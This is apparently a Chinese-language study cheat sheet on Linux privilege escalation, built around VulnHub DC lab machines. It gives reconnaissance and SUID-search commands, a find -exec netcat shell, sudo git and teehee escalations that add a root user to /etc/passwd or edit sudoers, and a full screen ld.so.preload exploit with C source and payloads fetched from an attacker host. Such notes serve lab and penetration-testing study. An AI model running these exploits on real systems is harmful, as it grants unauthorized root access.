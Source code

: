 # Linux提权

## 前言

提权本质：一方面是信息收集，另一方面是对内核漏洞的掌握情况

## 基础信息收集

```bash
suid命令提权查询：https://gtfobins.github.io/
```

## 提权操作

### 内核漏洞提权

具体案例可参考DC-3内核提权

1.查看发行版以及内核版本

```bash
cat /etc/issue
cat /etc/*-release

lsb_release -a
uname -a
```

2.kali查找漏洞

```
searchsploit ubuntu 16.04 4.4.x
searchsploit linux 3.10 CentOS Linux 7
```

### SUID提权

suid全称是Set owner User ID up on execution。SUID 是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行【ls 查看时有 s 属性才支持 SUID】

常见的可用来提权的linux可执行文件如下：

```
Nmap, Vim, find, bash, more, less, nano, cp
```

查看可以suid 提权的可执行文件(查看拥有suid权限的命令)

```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```


![image](../../ba-ji-shen-tou/vulnhub/img/vulnhub-dc1-13.png)

![image](img/vulnhub-dc1-13.png)

#### find提权

案例可见DC1的提权

```bash
find aaa - exec netcat -lvp 5555 -e /bin/sh \ # 反弹
find . -exec /bin/sh \; # 直接提权
```

#### Git提权

案例可见DC2的提权

https://gtfobins.github.io/gtfobins/git/

```
sudo -l

sudo git -p help config
!/bin/sh
```

#### teehee提权

案例参考可见DC4

```bash
eehee --help
1.直接写个 root 权限用户
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
cat /etc/passwd | grep '/bin/bash'
su test
whoami
2.在 sudoers 里给 charles 所有权限
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
sudo -l
sudo su
```

#### screen提权

案例参考可见DC5

首先kali运行如下
```sh
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机

```bash
python -m SimpleHTTPServer 8080 # kali

# 靶机
cd /tmp
wget 10.30.0.81:8080/libhax.so;wget 10.30.0.81:8080/rootshell

# 运行poc
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```
## 参考文章

* https://wiki.xazlsec.com/project-9/doc-730/
* https://xz.aliyun.com/t/7924
* https://shng.fun/posts/2021-01-23-%E5%AD%A6%E4%B9%A0-Linux%E4%B8%AD%E5%B8%B8%E7%94%A8%E7%9A%84%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95.html
* https://www.freebuf.com/articles/web/280398.html
* https://www.hacking8.com/tiquan/other/Linux%E6%8F%90%E6%9D%83.html
